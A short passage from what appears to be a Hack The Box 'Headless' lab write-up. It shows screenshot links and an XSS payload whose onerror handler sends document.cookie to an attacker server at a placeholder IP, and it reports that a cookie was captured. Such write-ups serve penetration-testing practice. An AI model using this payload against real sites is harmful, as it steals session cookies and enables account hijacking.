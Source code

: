 ![Alt Text](/assets/HTB/Headless/own_server(6).png)

XSS Payload: 
```
<img src=x onerror=fetch('http://**IP Address**:8000/'+document.cookie);>
```

![Alt Text](/assets/HTB/Headless/burpsuite_xss_payload(7).png)

Another cookie has been successfully obtained.
